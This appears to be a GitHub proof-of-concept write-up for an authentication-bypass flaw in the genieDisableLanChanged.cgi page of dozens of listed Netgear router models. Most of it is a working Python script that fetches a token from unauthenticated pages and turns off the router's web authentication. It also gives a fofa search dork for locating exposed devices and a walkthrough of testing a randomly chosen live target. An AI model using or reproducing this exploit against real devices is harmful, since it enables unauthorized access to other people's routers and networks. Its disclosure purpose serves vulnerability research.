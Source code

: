 ## 0x00 Summary

There is a large number of netgear devices with a genieDisableLanChanged.cgi page that can be accessed without authorization. After accessing this page, the device's authentication function will be turned off.
Some devices need to set the correct token and send a POST type request to trigger the vulnerability. 

like 

```
POST http://target/genieDisableLanChanged.cgi?id=Token
```


Token values can be fetched from certain pages that do not require authorization. But different models are different, so it is difficult to find a general solution. In this PoC, I try to grab a Token from three pages, which is suitable for most situations.

## 0x01 Tested Versions

AC1450, D8500, DC112A, JNDR3000, LG2200D, R4500, R6200, R6200V2, R6250, R6300, R6300v2, R6400, R6700, R6900P, R6900, R7000P, R7000, R7100LG, R7300, R7900, R8000, R8300, R8500, WGR614v10, WN2500RPv2, WNDR3400v2, WNDR3700v3, WNDR4000, WNDR4500, WNDR4500v2, WNR1000, WNR1000v3, WNR3500L, WNR3500L

## 0x02 PoC instructions

If you use PoC's closeauth function to turn off the device's web authentication, you must call PoC's openauth function to restore device authentication within a few minutes, otherwise the device's web service may crash.

If the PoC is invalid for a certain target, the possible reasons are:
（1）The target does not exist in the genieDisableLanChanged.cgi page, returning 404 (no vulnerability exists)
（2）The target's genieDisableLanChanged.cgi page requires authorization and returns 401 (no vulnerability exists)
（3）The page prompts that the timestamp expires and returns 200. (There is a vulnerability, the correct token is not fetched, and secondary development is required.)

## 0x03 PoC

```Python
#!/usr/bin/env python

import sys
import time
import os
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


def scrape(text, start_trig, end_trig):
    if text.find(start_trig) != -1:
    	return text.split(start_trig, 1)[-1].split(end_trig, 1)[0]
    else:
        return "Token maybe unnecessary"


def get_token(url):
	token=0
	while token==0:
		req = requests.get(url, verify=False)
		token = scrape(req.text, 'unauth.cgi?id=', '\"')
		if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
			req = requests.get(url+'genie_ping.htm', verify=False)
			token = scrape(req.text, 'genieping.cgi?id=', '\"')
			if token=="Token maybe unnecessary":
			#print url+'genie_ping.htm'
				req = requests.get(url+'LGO_logout.htm', verify=False)
				token = scrape(req.text, 'logout.cgi?id=', '\"')

	return token

def get_url(ip,port):
	url = 'http://' + ip + ':' + port + '/'
	try:
		req = requests.get(url)
	except:
		url = 'https://' + ip + ':' + port + '/'
	return url


def close_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'genieDisableLanChanged.cgi'
	else:
		vurl = url + 'genieDisableLanChanged.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is disabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'

def open_auth(token,url):

	if token == "Token maybe unnecessary":
		vurl = url + 'geniemanual.cgi'
	else:
		vurl = url + 'geniemanual.cgi?id=' + token

	req = requests.post(vurl, verify=False)
	time.sleep(1)
	req = requests.post(vurl, verify=False)

	print 'Authentication is enabled'
	print 'Try: '+url+'BAS_basic.htm'
	print 'Try: '+url+'MNU_accessPassword_recovered.htm'


if __name__ == '__main__':
	if len(sys.argv) != 4:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)

	ip=sys.argv[1]
	port=sys.argv[2]
	func=sys.argv[3]

	

	if func=='openauth':
		url=get_url(ip, port)
		token=get_token(url)
		open_auth(token,url)
	elif func=='closeauth':
		url=get_url(ip, port)
		token=get_token(url)
		close_auth(token,url)
	else:
		print 'usage:'
		print '1.python router.py ip port openauth'
		print '2.python router.py ip port closeauth'
		os._exit(0)
```

## 0x04 Vulnerability test example

Use the fofa search engine to retrieve the target, such as using the following dork syntax to get the target of the specified version.
```
dork: app="NETGEAR-WNDR3400v2"
```
![7ef9ce61dd1875f9961000dd3889fe0c](img/FC66A914-B18A-473F-B5B3-F798B015D3AA.png)
Next randomly select the target to use poc to test it. First, the access to the target directly needs to be authenticated. If the authentication is not authenticated, the corresponding page cannot be accessed.

![aca54fddbac415e49f12d4f24721e096](img/屏幕快照 2019-07-15 下午2.27.37.png)
![f851678f7fd85d7a5a2454d38b6bebe5](img/2896ACAC-346B-4466-A703-E22AEC18B046.png)



Next use PoC to turn off authentication and access key pages.

![2031c33b0f3e6937620a0151d9af1392](img/50A84184-249E-44D9-85D1-6E33539CCEBD.png)

![77179e57d9f8e5a333c50efd04453d1b](img/24791329-A503-44BF-9F39-6C57E4FC16F6.png)

![7d2e74f998fadcf41c3e42c749b83cec](img/C4B57C60-41F7-4FC0-B6A3-1707A301C89D.png)

Then use PoC to open the corresponding authorization and try to access the corresponding page again, and find that authorization is required to access.

![d1e26ba59ff297439edea6d328d9be72](img/F5DFD014-9A93-4404-A60C-3AD4F3BB9833.png)

![0108d5e52391baae09eb694cbf193752](img/74A49081-BC7D-4DD4-81A4-2F745F383D6E.png)

## 0x05 Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Wei Xie

En-Ze Wang

Zhen-hua Wang 

